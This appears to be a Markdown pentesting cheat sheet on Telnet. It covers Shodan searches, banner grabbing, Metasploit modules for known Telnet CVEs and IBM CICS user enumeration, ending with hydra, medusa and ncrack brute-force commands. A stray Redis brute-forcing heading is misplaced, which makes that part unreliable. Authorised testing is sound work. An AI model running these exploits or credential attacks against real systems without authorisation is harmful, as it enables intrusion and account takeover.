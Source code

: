 ```yaml
---
title: Telnet Pentesting Best Practices
categories: [pentesting protocols,telnet]
tags: [pentesting,telnet,best practicies]
comments: true
---
```

# Telnet

> Telnet usually uses port 23,992
{: .prompt-tip }

# What is Telnet?

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.

```bash
PORT     STATE SERVICE               VERSION
23/tcp   open  telnet  
```

Redis Password Authentication Bruteforcing Methods

```bash
#Metasploit Framework
msf> use auxiliary/scanner/redis/redis_login
```

# Telnet Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:23 |
| # You can use this command only on your shodan-cli : `shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000` |

<h2>Banner Grabbing</h2>

```bash
telnet 10.10.x.x 23
nc 10.10.x.x 23
Nmap: banner
nc -vn 10.10.x.x 23
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 10.10.x.x
msf > use auxiliary/scanner/telnet/telnet_version
msf > use auxiliary/scanner/telnet/lantronix_telnet_version
```

![Telnet version grabbing with metasploit module.](/assets/img/pitcures/telnet/telnet.png)
_Telnet version grabbing with metasploit module._

<h2>Connection Tools</h2>

Linux:

```bash
telnet -l username 10.10.x.x 23
```

Windows:

- Putty

<h2>Telnet Vulnerabilities</h2>

<h3>Specific Vulnerabilities and Exploits</h3>

```bash
#BOF: FreeBSD 7.3 – 9.0; MIT Kerberos v5 Applications (krb5-appl) <= 1.0.2; Heimdal <= 1.5.1; GNU inetutils [CVE-2011-4862]
msf > use auxiliary/scanner/telnet/telnet_encrypt_overflow
msf > use exploit/linux/telnet/telnet_encrypt_keyid
msf > use exploit/freebsd/telnet/telnet_encrypt_keyid

#SenNet Optimal DataLogger <= V5.37c-1.43c; SenNet Solar Datalogger <= V5.03-1.56a; SenNet Multitask Meter <= V5.21a-1.18b [CVE-2017-6048] [TCP/5000]
msf > use auxiliary/scanner/telnet/satel_cmd_exec

#RuggedCom Rugged Operating System (ROS) Telnet backdoor [CVE-2012-1803]
Exploit-DB: 18779.txt
msf > use auxiliary/scanner/telnet/telnet_ruggedcom

#Lantronix Device Server V5.8.0.1 [UDP\30718]
msf > use auxiliary/scanner/telnet/lantronix_telnet_password
```

<h3>There are also product-based vulnerabilities and scripts for vulnerabilities.</h3>

IBM CICS:

```bash
#Nmap Scripts:
nmap --script=cics-enum -p 23 10.10.x.x
nmap --script=cics-user-enum -p 23 10.10.x.x
```

IBM TN32701:

```bash
#Nmap Scripts:
nmap --script tn3270-info,tn3270_screen 10.10.x.x
```

<h2>Telnet Credentials</h2>

<h3>Brute Forcing</h3>

```bash
hydra -t 2 -L users.list -P passwords.list -M TargetIPs.list -s 23 telnet
medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIPs.list -n 23 -M telnet
ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIPs.list -p telnet:23 -oA Result.txt
msf > use auxiliary/scanner/telnet/telnet_login
```